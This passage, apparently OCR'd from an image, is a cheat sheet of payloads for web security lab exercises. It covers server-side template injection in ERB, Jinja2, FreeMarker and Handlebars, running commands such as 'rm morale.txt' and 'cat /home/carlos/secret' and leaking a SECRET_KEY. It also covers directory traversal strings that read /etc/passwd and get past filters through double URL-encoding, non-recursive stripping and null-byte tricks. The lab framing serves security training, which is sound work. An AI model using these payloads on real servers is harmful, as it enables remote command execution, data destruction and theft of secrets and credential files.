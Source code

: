 ```
<%= system("rm+morale.txt") %>
```
2. Basic server-side template injection (code context)  
```
blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
```
3. SSTI using documentation  
Java Freemaker
```
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```
4. SSTI in an unknown language with a documented exploit  
NodeJS Handlebars [exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)
5. SSTI with information disclosure via user-supplied objects  
Python Jinja2
```
{{settings.SECRET_KEY}}
```
6. Admin panel Password Reset Email SSTI  
Jinja2
```
newEmail={{username}}!{{+self.init.globals.builtins.import('os').popen('cat+/home/carlos/secret').read()+}}
&csrf=csrf
```
## Directory traversal
Just scan with Burp  
If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word secret), just URL-Encode the whole payload (even with /home/carlos/secret) like this:
```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```
Arises at `/image?filename=`
recommend you to turn on images inspection in proxy setting to easily detect this type  
### Exploits
1. File path traversal, traversal sequences blocked with absolute path bypass  
```
/image?filename=/etc/passwd
```
2. File path traversal, traversal sequences stripped non-recursively  
```
/image?filename=..././..././..././etc/passwd
```
3. File path traversal, traversal sequences stripped with superfluous URL-decode  
```
Double URL-encode ../../../etc/passwd
(e.g. %252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd)
It is recommended to use cyberchef to encode
```
4. File path traversal, validation of start of path  
```
/image?filename=/var/www/images/../../../../etc/passwd
```
5. File path traversal, validation of file extension with null byte bypass  
```
../../../../../../etc/passwd%00.jpg
```
## Access control vulnerabilities